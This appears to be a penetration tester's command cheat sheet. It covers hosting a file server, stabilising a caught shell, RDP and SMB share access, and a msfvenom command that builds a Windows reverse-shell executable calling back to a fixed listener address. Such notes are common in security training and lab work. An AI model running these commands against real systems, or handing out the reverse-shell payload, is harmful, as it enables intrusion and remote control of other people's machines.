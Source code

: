 Host http server
	`python3 -m http.server`

Normalizing a shell
	`python3 -c 'import pty;pty.spawn("/bin/bash")'`
	`export TERM=xterm`
	`CTRL + Z`
	`stty raw -echo && fg`

RDP with xfreerdp
	`xfreerdp /u:[USERNAME] /p:[PASSWORD] /v:[IP_ADDRESS]`

List Shares on SMB
	`smbclient -L $IP`

Connect to a valid share with username + password
	`smbclient //<target>/<share$> -U username%password`

Generate Windows Reverse Shell Payload
	`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.200 LPORT=1337 -f exe > reverse.exe`